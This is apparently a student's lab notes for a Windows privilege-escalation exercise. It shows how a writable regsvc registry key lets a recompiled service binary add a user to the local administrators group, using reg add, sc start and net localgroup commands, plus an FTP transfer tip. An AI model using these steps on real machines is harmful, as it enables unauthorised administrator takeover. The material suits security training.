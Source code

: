 # Reg -Srvc

First Check if we have full control or not

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

We see that we are NT/Authority interactive and have full access to it ;And there is also admin group so by  abusing this we can add a new user to that group

Exploitation

Windows VM

‘C:\Users\User\Desktop\Tools\Source\windows\_service.c’ to the Kali VM

Kali VM

1\. Open windows\_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add\
2\. Exit the text editor and compile the file by typing the following in the command prompt

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

Windows VM

1\. Place x.exe in ‘C:\Temp’.\
2\. Open command prompt at type:&#x20;

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`\
3\. In the command prompt type: `sc start regsvc`\
4\. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

\---------------------------------------------------------------------------------------------------------------------

For the file transfer from windows to linux

kali

```
python2 -m pyftblib -p 21 --write
```

In Windows

```
ftp <kali ip> 
```

then anonymous login then&#x20;

```
put <file name>
```

